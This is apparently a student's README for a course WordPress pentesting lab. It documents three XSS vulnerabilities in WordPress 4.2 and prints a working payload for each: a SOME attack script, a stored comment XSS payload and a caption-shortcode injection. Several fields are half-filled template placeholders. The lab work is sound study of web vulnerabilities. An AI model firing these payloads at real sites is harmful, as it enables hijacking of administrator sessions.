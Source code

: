 # CodePathWeek7
# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID: CVE-2016-4566
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in plupload.flash.swf in Plupload before 2.1.9, as used in WordPress before 4.5.2, allows remote attackers to inject arbitrary web script or HTML via a Same-Origin Method Execution (SOME) attack
    - Vulnerability types:Cross-site scripting (XSS)
    - Tested in version:wp 4.2
    - Fixed in version: 4.5.3
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate:inject code into comment section, creates a click button, upon clicking prompts flash pluggin installation  
  - [ ] Affected source code:<button onclick="fire()">Click</button>
<script>
function fire() {
 open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
  setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
}
</script>
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)CWE-79
  - [ ] Summary:  Current versions of WordPress are vulnerable to a stored XSS. An unauthenticated attacker can inject JavaScript in WordPress comments. The script is triggered when the comment is viewed.

If triggered by a logged-in administrator, under default settings the attacker can leverage the vulnerability to execute arbitrary code on the server via the plugin and theme editors.

Alternatively the attacker could change the administrator’s password, create new administrator accounts, or do whatever else the currently logged-in administrator can do on the target system. 
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version::4.2
 
  - [ ] GIF Walkthrough: //not working 
  - [ ] Steps to recreate: attacker injects code into comment, administator views comment, the attacker now has access to the backend of the site 
  - [ ] Affected source code: <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA64kbAAA'></a>
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID CVE-2015-5714
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in WordPress before 4.3.1 allows remote attackers to inject arbitrary web script or HTML by leveraging the mishandling of unclosed HTML elements during processing of shortcode tags. 
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.3.1
  - [ ] GIF Walkthrough: lice cap not working 
  - [ ] Steps to recreate: place the code in page or post,not comment, attacker can inject arbitray sript by taking advantage of unclosed HTML elemest during proceing of shortcode tags.
  - [ ] Affected source code:EST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

